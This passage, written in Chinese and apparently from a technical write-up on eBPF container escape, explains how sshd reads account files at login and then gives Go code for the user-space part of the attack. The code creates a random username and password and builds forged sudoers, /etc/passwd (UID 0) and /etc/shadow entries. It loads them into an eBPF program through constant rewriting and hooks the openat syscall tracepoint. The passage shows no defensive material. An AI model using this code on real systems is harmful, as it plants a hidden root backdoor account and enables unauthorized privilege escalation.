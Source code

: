 在SSHD应用中，当用户登录时，会读取/etc/passwd等文件。用户态SSHD程序，调用open、read等系统调用，让内核去硬件磁盘上检索数据，再返回数据给SSHD进程。

**用户态生成payload**

用户态实现/etc/passwd、/etc/shadow等文件payload的生成，并通过eBPF的RewriteConstants机制，完成对ELF .rodata的字段值替换。

import "github.com/ehids/ebpfmanager"  
  
//  通过elf的常量替换方式传递数据  
func (e *MBPFContainerEscape) constantEditor() []manager.ConstantEditor {  
 var username = RandString(9)  
 var password = RandString(9)  
 var s = RandString(8)  
  
 salt := []byte(fmt.Sprintf("$6$%s", s))  
 // use salt to hash user-supplied password  
 c := sha512_crypt.New()  
 hash, err := c.Generate([]byte(password), salt)  
      
 var m = map[string]interface{}{}  
 res := make([]byte, PAYLOAD_LEN)  
 var payload = fmt.Sprintf("%s ALL=(ALL:ALL) NOPASSWD:ALL #", username)  
 copy(res, payload)  
 m["payload"] = res  
 m["payload_len"] = uint32(len(payload))  
  
    // 生成passwd字符串  
 var payload_passwd = fmt.Sprintf("%s:x:0:0:root:/root:/bin/bash\n", username)  
 // 生成shadow字符串  
 var payload_shadow = fmt.Sprintf("%s:%s:18982:0:99999:7:::\n", username, hash)  
   
    // eBPF RewriteContants  
    var editor = []manager.ConstantEditor{  
  {  
   Name:          "payload",  
   Value:         m["payload"],  
   FailOnMissing: true,  
  },  
  {  
   Name:          "payload_len",  
   Value:         m["payload_len"],  
   FailOnMissing: true,  
            },  
    }  
    return editor  
}  
  
func (this *MBPFContainerEscape) setupManagers() {  
 this.bpfManager = &manager.Manager{  
  Probes: []*manager.Probe{  
   {  
    Section:          "tracepoint/syscalls/sys_enter_openat",  
    EbpfFuncName:     "handle_openat_enter",  
    AttachToFuncName: "sys_enter_openat",  
   },  
            ...  
  },  
  
